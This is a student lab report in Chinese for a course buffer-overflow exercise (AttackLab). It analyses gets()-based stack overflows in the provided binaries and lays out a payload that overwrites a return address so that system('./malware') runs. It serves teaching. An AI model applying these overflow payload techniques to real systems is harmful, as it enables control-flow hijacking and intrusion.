# Lab3：AttackLab 缓冲区溢出与控制流劫持实验报告
 
> 实验平台：Windows + WSL / Ubuntu，Linux x86-64  
> 项目目录：`~/ICS2026/AttackLab`  
> 姓名：王彦霖　学号：25800190031  

> **报告说明：** 本报告依据课程仓库 README、提供的核心源码、本人保存的终端/GDB 截图及实验过程记录整理。报告区分了已经由截图验证的结果和仍存在的限制：`dark-log` 的 Canary 任务已经输出目标字符串，但当前截图也显示程序随后因返回地址为零而触发 SIGSEGV，因此不将其表述为正常退出或已获得课程自动测试分数。**个人观点和 AI 贡献在最后。**

## 一、实验目标与总体思路

AttackLab 主要研究不安全输入、栈帧布局、函数调用约定，以及缓冲区溢出如何影响程序控制流。实验从观察 `input()` 的栈帧开始，逐步完成普通返回地址覆盖、栈中机器码执行、ROP（Return-Oriented Programming），最后研究 Stack Canary 及其绕过条件。

本实验需要回答：

1. 输入数据从哪个地址开始写入，缓冲区实际有多大？
2. 局部数组后面依次保存了什么数据？
3. `call`、`leave` 和 `ret` 如何改变栈指针及指令指针？
4. 如何把一个输入字节序列解释成新的返回地址、机器码或 ROP 链？
5. NX 与 Canary 分别保护什么，又有哪些漏洞组合会使保护失效？

### 1.1 README 中的任务与分值

| 任务 | 测试分 | 报告分 | 本次记录 |
|---|---:|---:|---|
| 观察 `input` 栈帧 | — | 20 | 已观察调用栈、寄存器、局部变量与返回地址 |
| 不同长度字符串测试 `dark-calc` | — | 5 | 对 20 字符和 32 字符输入进行对比 |
| 利用缓冲区漏洞执行 `./malware` | 25 | 5 | 已出现成功 detonated 提示；随后父进程 SIGBUS |
| 用 GDB 检查 `main` 机器码 | — | 5 | 已记录反汇编及机器码字节 |
| 栈空间执行 | 25 | 5 | 已执行栈中机器码并输出目标字符串，正常退出 |
| ROP | 10 | 10 | 已调用 `grade_eval(4)` 并正常退出 |
| Canary | 10 | 10 | 已输出目标字符串；随后 SIGSEGV，退出链仍需完善 |

README 标注实验总分为 130 分。上表只记录本地实验观察，不代表课程平台已经给出最终评分。

### 1.2 工具与方法

实验中使用了：

- `gdb`：设置断点、单步执行、查看寄存器、栈内存和进程映射；
- `objdump`：反汇编函数，查看指令和机器码；
- `readelf`：检查 ELF 的 `GNU_STACK` 段及 Stack Protector 符号；
- `xxd`：核对 payload 的逐字节布局；
- Python 3：生成包含空字节和地址字节的二进制输入；
- `as`、`objcopy`：汇编并提取机器码；
- Git：克隆课程仓库并检查工作区状态。

实验使用的核心二进制为 `dark-calc`、`dark-calc-nx`、`dark-log` 和 `malware`。课程仓库已经提供这些二进制，不需要自行编译。

## 二、仓库获取与源码分析

### 2.1 获取仓库

通过 SSH 克隆个人 AttackLab 仓库，进入 `~/ICS2026/AttackLab` 后检查目录结构。仓库中包含 `attack/` 二进制目录、`src/` 核心源码目录，以及 `payload.py`、`payload_dark.py`、`payload_rop.py` 和 `payload_canary.py` 等待填写的输入生成脚本。



### 2.2 `dark-calc.c` 的输入路径

核心代码可以概括为：

```c
#define MAXLEN 15

void input(void) {
    char expression[MAXLEN + 1];
    gets(expression);
    strcpy(command_buf, expression);
}

void eval(void) {
    int len = strlen(command_buf) > MAXLEN
        ? MAXLEN : strlen(command_buf);

    memmove(command_buf + 8, command_buf, len + 1);
    memcpy(command_buf, wrapper_front, 8);
    strcpy(command_buf + 8 + len, wrapper_back);
    system(command_buf);
}
```

`expression` 长度为 16 字节，最多容纳 15 个普通字符和结尾的 `\0`。`gets()` 不接收缓冲区容量，因此不会自动限制输入长度。输入过长时，写入会越过 `expression` 的边界。

`strcpy()` 同样不检查目标容量。`command_buf` 的大小为 `MAXLEN + 16`，即 31 字节；如果复制的字符串过长，也可能造成全局缓冲区越界。因此本实验中需要区分局部栈缓冲区溢出和全局 `command_buf` 越界。

### 2.3 `dark-log.c` 的特殊逻辑

源码中的结构体和操作为：

```c
struct log_frame {
    char expression[128];
    char logMsg[128];
    int len;
    char pad[8];
};

void input(void) {
    struct log_frame f;
    f.len = 0;
    if (gets(f.expression) == NULL) return;
    memcpy(f.logMsg + f.len, f.expression, sizeof(f.expression));
}
```

这里的关键不只是 `gets()`，还包括后续 `memcpy()` 的目标地址由 `f.len` 决定。若 `gets()` 的越界写入能够改变 `len`，就可能改变 `memcpy()` 的目的位置。这构成 Canary 任务的核心研究点。

## 三、观察 `input()` 栈帧与函数调用过程

### 3.1 `input()` 的函数序言

在 `dark-calc` 中，GDB 显示 `input()` 从 `0x401977` 开始，关键指令为：

```asm
push rbp
mov  rbp, rsp
sub  rsp, 0x10
```

随后通过：

```asm
lea rax, [rbp-0x10]
```

取得局部数组的地址。因此该函数的主要栈布局为：

| 相对地址 | 内容 |
|---|---|
| `rbp-0x10` 至 `rbp-1` | `expression[16]` |
| `rbp` | 调用者保存的 RBP |
| `rbp+0x8` | 返回地址 |

这解释了为什么 16 字节数组后面紧邻保存的 RBP，而返回地址位于再往后的 8 字节位置。





### 3.2 `call` 如何压入返回地址

`main()` 中调用 `input()` 的指令位于 `0x401acc`：

```asm
0x401acc: call 0x401977 <input>
```

`call` 不只是跳转到函数入口，它还会把下一条指令地址压入栈中。本次观察到的返回地址是 `0x401ad1`。进入 `input()` 后，函数再通过 `push rbp` 保存调用者的 RBP。

单步执行时，`call` 使 `rsp` 减少 8 字节，栈顶出现 `0x401ad1`；随后 `push rbp` 再使 `rsp` 减少 8 字节，保存旧 RBP。



### 3.3 `leave` 与 `ret` 如何返回

`input()` 尾部为：

```asm
leave
ret
```

在使用传统 RBP 栈帧的函数中，`leave` 可以理解为：

```asm
mov rsp, rbp
pop rbp
```

它恢复调用者的 RBP 和栈位置。接着 `ret` 从栈顶弹出返回地址到 RIP，CPU 便回到 `main()` 中 `call input` 的下一条指令 `0x401ad1`。

这次实验中，GDB 在 `leave` 前后观察到了 RSP、RBP 的变化，并在 `ret` 前确认栈顶保存的值为 `0x401ad1`。因此，返回地址并不是抽象的“函数名”，而是 `call` 指令自动保存的一段具体地址数据。



## 四、不同长度输入对栈内存的影响

### 4.1 输入 20 个字符

对 `expression[16]` 输入 20 个 `A`。在 `gets()` 写入后查看内存，可以看到：

- 偏移 0–15：16 个 `A`，填满 `expression`；
- 偏移 16–19：额外 4 个 `A`，覆盖保存 RBP 的前 4 字节；
- 偏移 20：`gets()` 自动写入的 `\0`；
- 返回地址位于偏移 24，因而这次输入尚未覆盖返回地址。

继续执行时，`eval()` 将参与计算的长度限制为 15，因此命令显示为 `echo $((AAAAAAAAAAAAAAA))`，shell 的算术结果为 0。这个结果说明“输入超过数组长度”不等于“必然立即覆盖返回地址”；还要看输入长度与目标字段的相对偏移。



### 4.2 输入 32 个字符

输入 32 个 `A` 时：

- 偏移 0–15 覆盖局部数组；
- 偏移 16–23 覆盖保存的 RBP；
- 偏移 24–31 覆盖返回地址；
- 偏移 32 写入字符串结束符。

GDB 显示保存的 RBP 和返回地址区域均被 `0x41` 覆盖，程序在 `ret` 附近收到 SIGSEGV。CPU 试图把被覆盖的数据当作指令地址使用，因而无法正常返回。

此外，32 个字符加结束符共 33 字节，也超过了 31 字节的 `command_buf` 容量；因此源码还存在全局缓冲区越界的风险。本次截图中观察到的直接故障位置是 `input()` 的 `ret`，不能仅凭这张截图把所有异常都归因于 `strcpy()`。



## 五、利用返回地址执行 `./malware`

### 5.1 目标不是跳到 `eval()` 的开头

正常情况下，`eval()` 会把输入包装成：

```text
echo $((用户输入))
```

例如输入 `6*7`，最终交给 `system()` 的字符串为 `echo $((6*7))`。如果直接把返回地址改成 `eval()` 的开头，`./malware` 也会先被包装进算术表达式，不能达到运行外部程序的目的。

在本次 `dark-calc` 二进制中，`eval()` 内部有一段现成的指令：

```asm
0x401a6b: mov edi, 0x6030d0
0x401a70: call 0x4017e0 <system@plt>
```

`0x6030d0` 是全局 `command_buf` 的地址。跳到 `0x401a6b` 会先把该地址放入第一个参数寄存器 RDI，再调用 `system()`。因此目标是复用这段已有代码，而不是直接跳到 `system@plt` 后依赖一个不确定的 RDI 值。

### 5.2 `\0` 将命令与溢出数据分开

本次 payload 的布局为：

| 偏移 | 内容 | 用途 |
|---:|---|---|
| 0–15 | `./malware\0` + 6 个 `A` | 填满 16 字节数组，同时让复制出的命令在 `\0` 处结束 |
| 16–23 | 8 个 `B` | 覆盖保存的 RBP |
| 24–31 | `0x401a6b` 的小端字节 | 覆盖返回地址 |
| 后续 | 换行符 | 让 `gets()` 停止读取 |

`gets()` 以换行符作为输入结束标记，仍会把中间的空字节写入缓冲区；`strcpy()` 则把 `\0` 当作字符串结束标记。因此同一份输入可以同时完成两件事：在栈上写入完整的覆盖数据，同时让 `command_buf` 只保留 `./malware`。



### 5.3 验证结果与异常退出

GDB 在 `0x401a6b` 停止时，`x/s 0x6030d0` 显示 `command_buf` 内容为 `./malware`。继续执行后，进程树中出现 `sh -c -- ./malware` 和 `malware` 子进程，程序输出：

```text
The bomb was triggered by the dark-calc process.
You have successfully detonated the bomb! Congratulations!
```

这证明 `system("./malware")` 已被执行，实验要求的 malware 目标已经触发。

随后 `dark-calc` 在 `0x401a85` 收到 SIGBUS。结合 payload 中保存 RBP 被 `B` 覆盖，这说明攻击目标执行成功与父程序后续能否正常返回是两个不同问题。本次结果应记录为“malware 成功执行，但父进程之后异常退出”，而不是描述为程序全程正常退出。



## 六、用 GDB 检查 `main()` 的机器码

`disassemble /r main` 不仅显示汇编助记符，还显示每条指令对应的机器码字节。此次观察到的关键指令为：

```asm
0x401ac3: 55                   push rbp
0x401ac4: 48 89 e5             mov rbp, rsp
0x401ac7: b8 00 00 00 00       mov eax, 0
0x401acc: e8 a6 fe ff ff       call 0x401977 <input>
0x401ad1: b8 00 00 00 00       mov eax, 0
0x401ad6: e8 fc fe ff ff       call 0x4019d7 <eval>
0x401adb: eb ea                jmp 0x401ac7 <main+4>
```

`call` 后面的 4 字节是相对位移，不是目标函数地址的直接字节表示。CPU 根据下一条指令地址与有符号相对位移计算目标地址。`main()` 最后的 `jmp` 跳回循环体，因此正常输入情况下会反复调用 `input()` 和 `eval()`。源码中的 `while(1)` 与这条回跳指令相对应。

